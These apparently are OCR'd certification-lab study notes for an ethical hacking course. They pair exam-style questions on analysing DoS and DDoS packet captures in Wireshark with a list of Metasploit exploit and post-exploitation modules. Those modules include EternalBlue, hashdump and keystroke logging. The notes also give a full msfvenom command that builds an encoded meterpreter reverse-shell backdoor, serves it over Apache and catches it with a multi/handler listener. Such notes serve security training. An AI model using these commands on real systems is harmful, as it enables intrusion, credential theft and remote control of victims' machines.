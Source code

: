 ==========================================
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/ms17_010_psexec
auxiliary/admin/smb/ms17_010_command
auxiliary/scanner/smb/smb_ms17_010
auxiliary/dos/windows/smb/ms06_035_mailslot
auxiliary/dos/windows/smb/ms09_001_write
auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow
exploit/windows/http/xampp_webdav_upload_php
exploit/multi/http/php_cgi_arg_injection
exploit/windows/smb/ms08_067_netapi
exploit/linux/postgres/postgres_payload
exploit/multi/misc/java_rmi_server
microsoft sql server payload execution
WEB APP
exploit/pro/web/http_put_php
exploit/pro/web/http_put_asp
Post Ex
post/pro/multi/agent
post/pro/multi/agent_cleaner
post/windows/gather/hashdump
keyscan_start > keyscan_dump > keyscan_stop
=========================================================

9. A denial-of-service attack has been launched on a target machine in a network. A network session file
"DoS.pcapng" has been captured and stored in the Documents folder of the Ethical Hacker-1 machine. Find the attacker machine IP address.

Mod-10 Page- 49 V10
Mod-10 Page- 24 V11
DDOS
tcp.flags.syn == 1 , tcp.flags.syn
== 1 and tcp.flags.ack == 0
#ToDetect the DDOS attack
go to statistics > IPv4 statistics >
source and destination addresses
#Finding the infected files
download
files > export > HTTP objects list
To find the hash of the file us
HashMyFiles


10. Adam works as a cybersecurity analyst at a datacenter. While analyzing the network traffic, he observed a huge surge of incoming traffic from multiple sources. After analyzing, he concluded that the datacenter was being subject to DDoS attack. The captured network session (DDOS.pcapng) is stored on the Desktop of the Ethical Hacker-2 machine. Determine the number of machines that were used to initiate the attack.

============================================
Mod-6 Page- 99 V.10
Mod-6 Page- 125 V.11
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Backdoor.exe
mkdir /var/www/html/share
service apache2 start
cp /root/Desktop/Backdoor.exe /var/www/html/share/
Msfconsole
use multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.92.131
set lport 4444
exploit -j -z
sessions -i 1
======================================================